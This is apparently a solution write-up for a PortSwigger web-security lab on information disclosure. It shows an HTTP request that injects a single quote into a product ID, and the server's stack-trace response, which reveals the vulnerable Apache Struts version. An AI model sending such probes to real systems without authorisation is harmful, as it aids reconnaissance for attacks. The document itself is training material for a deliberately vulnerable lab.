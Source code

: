 # [Lab: Information disclosure in error messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages)

## Lab

This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

## Solution

```http
GET /product?productId=%27 HTTP/1.1

HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 1640

Internal Server Error: java.lang.NumberFormatException: For input string: "'"
 at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
 at java.base/java.lang.Integer.parseInt(Integer.java:654)
 at java.base/java.lang.Integer.parseInt(Integer.java:786)
 at lab.q.u.t.s.H(Unknown Source)
 at lab.x.f.a.v.i(Unknown Source)
 at lab.x.f.f.w.t.l(Unknown Source)
 at lab.x.f.f.o.lambda$handleSubRequest$0(Unknown Source)
 at g.z.j.i.lambda$null$3(Unknown Source)
 at g.z.j.i.Y(Unknown Source)
 at g.z.j.i.lambda$uncheckedFunction$4(Unknown Source)
 at java.base/java.util.Optional.map(Optional.java:260)
 at lab.x.f.f.o.W(Unknown Source)
 at lab.server.s.b.g.X(Unknown Source)
 at lab.x.f.l.X(Unknown Source)
 at lab.server.s.b.r.j.H(Unknown Source)
 at lab.server.s.b.r.k.e(Unknown Source)
 at lab.server.s.b.w.Y(Unknown Source)
 at g.z.j.i.lambda$null$3(Unknown Source)
 at g.z.j.i.Y(Unknown Source)
 at g.z.j.i.lambda$uncheckedFunction$4(Unknown Source)
 at lab.server.c2.Z(Unknown Source)
 at lab.server.s.b.w.h(Unknown Source)
 at lab.server.s.f.m.x(Unknown Source)
 at lab.server.s.g.T(Unknown Source)
 at lab.server.s.p.T(Unknown Source)
 at lab.server.c.s(Unknown Source)
 at lab.server.c.c(Unknown Source)
 at lab.server.c.S(Unknown Source)
 at g.z.y.a.n.P(Unknown Source)
 at g.z.y.a.n.m(Unknown Source)
 at g.z.y.a.n.run(Unknown Source)
 at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1136)
 at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:635)
 at java.base/java.lang.Thread.run(Thread.java:833)

Apache Struts 2 2.3.31
```

